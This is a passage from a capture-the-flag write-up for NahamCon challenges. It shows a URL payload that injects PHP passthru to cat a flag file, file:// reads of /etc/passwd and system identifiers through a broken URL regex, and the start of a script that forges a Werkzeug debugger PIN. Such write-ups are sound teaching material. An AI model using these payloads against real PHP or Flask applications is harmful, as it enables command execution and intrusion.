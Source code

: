 ```
  $file = "home.php";
}

include($file);

?>

```

By using `passthru` I was able to get output of the flag.

```
http://challenge.nahamcon.com:31066/index.php?page=%27,%27a%27)===false%20%26%26passthru(%27cat%20../../../../flag.txt%27)%26%26%20strpos(%27abc

flag{85a25711fa6e111ed54b86468a45b90c}
```

---
# [Hard] Workerbee - 500 points (19 Solves)

### Intro

```
Author: @JohnHammond#6971

Check out our new service, Workerbee. It is super secure. I promise.

Escalate your privileges and find the flag.
```
### Solve

The application is expecting an https website but was using broken regex check, so we can exploit it to read local files.

`file:///etc/passwd#https://`

Since the werkezeug debugger is enabled, we can generate the PIN(used by werkzeug) based on gathering all the information from the system.

```
Mac-Addr => http://challenge.nahamcon.com:31919/?destination=file:///sys/class/net/eth0/address%23https://xx
Machine-id => http://challenge.nahamcon.com:31919/?destination=file:////proc/sys/kernel/random/boot_id%23https://xx
Cgroup => http://challenge.nahamcon.com:31919/?destination=file:////proc/self/cgroup%23https://xx
```

After gathering all the info we can just generate the pin number by our self
```
import hashlib 
from itertools import chain
import os
import getpass
from _compat import text_type

pin = None
rv = None
num = None

probably_public_bits = [ 
  'workerbee' , # username 
  'flask.app' , # modname Always the same 
  'Flask' , # Always the same
  '/usr/local/lib/python3.8/dist-packages/flask/app.py'
  ]
```